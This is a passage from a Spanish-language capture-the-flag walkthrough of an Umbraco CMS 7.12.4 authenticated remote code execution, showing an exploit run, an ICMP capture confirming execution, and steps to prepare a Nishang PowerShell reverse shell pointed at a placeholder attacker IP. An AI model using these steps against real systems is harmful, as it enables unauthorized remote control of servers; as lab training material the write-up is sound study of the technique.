 Y activamos el Exploit:
```bash
python Umbraco_Exploit.py
Start
[]
End
```

Resultado:
```bash
tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
18:59:56.827476 IP 10.10.10.180 > Tu_IP: ICMP echo request, id 1, seq 1, length 40
18:59:56.827492 IP Tu_IP > 10.10.10.180: ICMP echo reply, id 1, seq 1, length 40
18:59:57.834902 IP 10.10.10.180 > Tu_IP: ICMP echo request, id 1, seq 2, length 40
18:59:57.834914 IP Tu_IP > 10.10.10.180: ICMP echo reply, id 1, seq 2, length 40
18:59:58.851255 IP 10.10.10.180 > Tu_IP: ICMP echo request, id 1, seq 3, length 40
18:59:58.851266 IP Tu_IP > 10.10.10.180: ICMP echo reply, id 1, seq 3, length 40
18:59:59.866337 IP 10.10.10.180 > Tu_IP: ICMP echo request, id 1, seq 4, length 40
18:59:59.866347 IP Tu_IP > 10.10.10.180: ICMP echo reply, id 1, seq 4, length 40
^C
8 packets captured
8 packets received by filter
0 packets dropped by kernel
```

Esto quiere decir que, si funciona dicho Exploit, ¿pero ahora que hacemos? Bueno, investigue como usar este Exploit y justo aparece una página que explica que hacer a continuación, aqui la página: 
* <a href="https://vk9-sec.com/umbraco-cms-7-12-4-authenticated-remote-code-execution/" target="_blank">Umbraco CMS 7.12.4 – (Authenticated) Remote Code Execution</a>

Entonces vamos a crear una **Powershell Reverse Shell** para conectarnos de manera remota a la máquina que usa Umbraco, entonces vamos por pasos como indica la página:

* Descargamos el repo **Nishang** para usar la shell que necesitamos: <a href="https://github.com/samratashok/nishang" target="_blank">Repositorio de samratashok: Nishang</a>
```bash
git clone https://github.com/samratashok/nishang.git                                        
Clonando en 'nishang'...
remote: Enumerating objects: 1705, done.
remote: Counting objects: 100% (14/14), done.
remote: Compressing objects: 100% (13/13), done.
remote: Total 1705 (delta 5), reused 4 (delta 1), pack-reused 1691
Recibiendo objetos: 100% (1705/1705), 10.89 MiB | 10.43 MiB/s, listo.
Resolviendo deltas: 100% (1064/1064), listo.
```

* Copiamos el siguiente archivo que esta en el directorio **Shells**: **Invoke-PowerShellTcp.ps1**
```bash
cd nishang/shells
cp Invoke-PowerShellTcp.ps1 path_donde_quieras_que_se_guarde/.
```

* Entramos al archivo y agregamos la siguiente linea al final: `Invoke-PowerShellTcp -Reverse -IPAddress Tu_IP -Port PuertoQueQuieras`
```batch
{
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
        Write-Error $_
    }
}
Invoke-PowerShellTcp -Reverse -IPAddress Tu_IP -Port PuertoQueQuieras
```
